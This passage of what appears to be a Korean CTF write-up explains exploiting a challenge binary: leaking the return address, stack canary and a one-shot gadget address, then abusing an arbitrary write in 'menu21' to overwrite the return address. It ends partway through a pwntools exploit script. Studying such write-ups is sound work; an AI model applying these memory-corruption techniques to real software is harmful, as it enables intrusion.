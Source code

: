 위의 Memory Leak을 통해 익스플로잇에 필요한 정보를 얻을 수 있다.

1. `main()` 함수의 return address
2. Canary
3. Oneshot Gadget Address

#### 3.2 Arbitrary Address Write

`menu21` 에서 Arbitrary Address Write가 가능하기 때문에 Stack의 return 주소가 위치한 곳에 oneshot gadget의 주소를 Overwrite 할 수 있다.

```c
unsigned __int64 menu21()
{
  void *buf; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  printf("Components: ");
  __isoc99_scanf("%lu", &buf);
  printf("Contents: ");
  read(0, buf, 7uLL);
  return __readfsqword(0x28u) ^ v2;
}
```

마지막으로 Memory Leak 시도 때문에 손상되었던 Canary 값을 복구시키고, `go out` 메뉴를 선택하면 ret address에 쓰여진 Oneshot Gadget 주소가 호출되면서 익스플로잇이 된다.

### 4. Exploit Code

```python
from pwn import *

context.log_level = 'debug'

def letter_delete():
    p.sendlineafter('> ', '1')

def letter_answer(buf):
    p.sendlineafter('> ', '2')
    p.sendlineafter('Answer: ', buf)

def addr_input(comp, con):
    p.sendlineafter('> ', '1')
    p.sendlineafter('Components: ', comp)
    p.sendafter('Contents: ', con)

def write_letter(buf):
    p.sendlineafter('> ', '2')
    p.sendafter('Answer: ', buf)

def delete(ptr):
    p.sendlineafter('> ', '3')
    p.sendlineafter('What: ', ptr)

def letter_check(sel, buf=b''):
    p.sendlineafter('> ', '1')
    if sel == 1:
        letter_delete()
    else:
        letter_answer(buf)

def send_letter(sel, comp=b'', con=b'', buf=b'', ptr=b''): # 편지 보내기
    p.sendlineafter('> ', '2')
    if sel == 1:
```
